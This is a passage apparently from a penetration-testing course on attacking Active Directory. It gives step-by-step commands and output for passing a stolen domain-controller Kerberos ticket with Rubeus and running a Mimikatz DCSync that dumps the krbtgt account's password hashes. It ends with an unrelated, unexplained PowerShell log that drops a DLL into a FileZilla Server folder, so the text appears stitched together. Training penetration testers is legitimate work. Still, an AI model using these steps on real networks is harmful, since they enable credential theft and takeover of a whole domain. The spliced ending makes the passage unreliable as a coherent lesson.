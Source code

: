 > Listing 12 - Found new TGT on _FILES01_

We have forced the domain controller account to authenticate to us and give us a TGT without any user interaction. Nice!

Now that we've managed to avoid user interaction, we can further improve this technique by avoiding the write to disk. In this case, Rubeus monitor mode outputs the Base64-encoded TGT similar to what we found in the previous section. As we did earlier, we'll inject the ticket to memory using the **ptt** command.

```
PS C:\Tools> .\Rubeus.exe ptt /ticket:doIFXDCCBVigAwIBBaEDAgEWooIEcDCCBGxhgg...
...

[*] Action: Import Ticket
[+] Ticket successfully imported!
```

> Listing 13 - Pass the ticket using Rubeus

With the TGT of the domain controller machine account injected into memory, we can perform actions in the context of that TGT. However, the _DC01$_ account is not a local administrator, nor a domain administrator, so we cannot directly perform lateral movement with it.

On the other hand, the account has domain replication permissions, which means we can perform a **dcsync** and dump the password hash of any user, including the special _krbtgt_ account.

In this case, we'll perform the DCSync attack using Mimikatz, which is also located on _FILES01_.

```
mimikatz # lsadump::dcsync /domain:corp.com /user:corp\krbtgt

[DC] 'corp.com' will be the domain
[DC] 'DC01.corp.com' will be the DC server
[DC] 'corp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 5/10/2023 10:00:18 AM
Object Security ID   : S-1-5-21-3515682028-2106700410-3524882512-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 28e13381ba56717f70b33198fa5814ca
   ntlm- 0: 28e13381ba56717f70b33198fa5814ca
    lm  - 0: c080b4e42d424464b40fa7ede8223d8b
...
```


[files02]: PS>
[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"